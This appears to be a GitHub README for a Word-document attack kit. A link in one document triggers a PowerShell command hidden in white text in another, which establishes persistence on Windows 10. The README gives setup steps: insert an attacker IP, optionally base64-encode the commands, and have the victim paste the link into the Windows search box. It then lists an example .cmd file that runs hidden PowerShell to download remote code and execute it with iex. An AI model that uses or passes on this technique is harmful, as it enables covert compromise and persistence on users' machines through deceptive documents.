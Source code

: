 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in Document1.docx. Scenario: The Document1 commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
Document1 is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. Document1 cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill Document1.

Add your IP, Directory, and filename to Document1. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Example .cmd
@echo off

powershell.exe -windowstyle hidden "(iwr https://<YOUR IP>/DIRECTORY/filename -UseBasicParsing) | iex"
